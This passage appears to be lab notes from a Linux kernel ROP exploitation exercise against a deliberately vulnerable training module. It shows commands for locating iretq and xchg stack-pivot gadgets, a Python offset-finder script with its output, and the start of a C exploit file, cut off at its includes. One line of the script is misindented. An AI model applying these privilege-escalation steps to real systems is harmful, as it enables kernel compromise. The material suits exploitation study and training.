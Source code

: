   ```sh
  objdump -j .text -d kernel_image/vmlinux-3.11.0-15-generic | grep iretq | head -1
  ffffffff81050dd6:	48 cf                	iretq
  ```

- Host: Find offset to xchg gadget

  - On my system the first xchg gadget not work because disassembly is different when run debug. So need update find_offset.py to find all and try (the second one work for me)

    ```python
    #!/usr/bin/env python
    import sys

    base_addr = int(sys.argv[1], 16)

    f = open(sys.argv[2], 'r') # gadgets

    for line in f.readlines():
      target_str, gadget = line.split(':')
      target_addr = int(target_str, 16)

      # check alignment
      if target_addr % 8 != 0:
        continue
      print '='*4
      offset = (target_addr - base_addr) / 8
      print 'offset =', (1 << 64) + offset
            print 'gadget =', line.strip()
      print 'stack addr = %x' % (target_addr & 0xffffffff)
      #break
    ```

    ```sh
    $ grep ': xchg eax, esp ; ret' kernel.gadgets > kernel.xchg.gadgets
    $ python ../kernel_rop/find_offset.py 0xffffffffa0002340 kernel.xchg.gadgets
    ====
    offset = 18446744073644639793
    gadget = 0xffffffff810c54c8 : xchg eax, esp ; ret 0x14ff
    stack addr = 810c54c8
    ====
    offset = 18446744073645214365
    gadget = 0xffffffff81527828 : xchg eax, esp ; ret 0x21
    stack addr = 81527828
    ====
    offset = 18446744073644591982
    gadget = 0xffffffff81067eb0 : xchg eax, esp ; ret 0x3145
    stack addr = 81067eb0
    ====
    ```

- Host: update rop_exploit.c with above information
  
  ```c
  /** 
   * ROP exploit for drv.c kernel module
   *
   * gcc rop_exploit.c -O2 -o rop_exploit
   *
   * Email: vnik@cyseclabs.com
   * Vitaly Nikolenko
   */

  #define _GNU_SOURCE
  #include <sys/types.h>
  #include <sys/stat.h>
  #include <fcntl.h>
  ```